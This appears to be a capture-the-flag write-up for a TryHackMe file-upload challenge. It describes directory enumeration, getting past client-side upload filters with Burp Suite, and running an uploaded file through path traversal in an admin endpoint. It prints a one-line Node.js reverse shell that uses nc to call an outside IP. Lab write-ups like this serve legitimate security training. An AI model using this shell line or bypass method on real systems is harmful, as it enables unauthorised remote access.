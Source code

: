 ## TryHackMe - Upload Vulnerabilities Challenge Writeup
[ROOM](https://tryhackme.com/r/room/uploadvulns)

This writeup describes the steps I took to exploit upload vulnerabilities and gain a reverse shell on the target.


---

### **Steps and Observations**

1. **Setup and Recon**:
   - Added the ip & subdomains of uploadvulns.thm to `/etc/hosts` and visited the site jewel.uploadvulns.thm .
   - Performed a quick source code review and found `background.js`, which loads images from `/content` with a naming pattern of `XXX.jpg`.
   - Tried listing the `/content` directory but received a 404 error.

2. **Discovering Potential Directories**:
   - Found `upload.js` with filters for file extensions and magic numbers.
   - Ran `gobuster` to find hidden directories, yielding:
     - `/content`
     - `/modules`
     - `/assets`
     - `/admin` (with a module activation input, indicating Node.js backend).

3. **Exploring the `/content` Directory**:
   - Used `gobuster` to search for files in `/content` with `.jpg` extension using the challenge included file.txt wordlist:
     - Findings: `ABH.jpg`, `LKQ.jpg`, `SAD.jpg`, and `UAD.jpg`.

4. **Testing File Upload**:
   - Uploaded a simple `cat.jpg` image to test for any backend processing.
   - Observed that the file was renamed to match the `XXX.jpg` pattern.

5. **Attempting to Exploit with Node.js Reverse Shell**:
   - Created a simple Node.js reverse shell script (`shell.js`):
     ```javascript
     require('child_process').exec('nc -e /bin/sh 10.0.0.1 4242');
     ```
   - Encountered two client-side filters in `upload.js` for file type and magic numbers.

---

### **Exploitation Attempts**

1. **First Attempt**:
   - Converted `shell.js` to a `.jpg` file with magic numbers resembling a JPG signature.
   - Uploaded and located the renamed file using `gobuster`.
   - Accessed `/content/XXX.jpg`, but no reverse shell connection was initiated.
   - Suspected there were execution restrictions, possibly triggered via `/admin` but no reverse shell connection was initiated.

2. **Second Attempt**:
   - Created a second copy of `shell.js` with `.jpg` extension without modifying the magic numbers.
   - Used Burp Suite to bypass the client-side filters in `upload.js`.
   - Successfully uploaded the file and located it with `gobuster`.
   - Triggered execution via `/admin` with `input=../content/XXX.jpg`, successfully gaining a reverse shell!

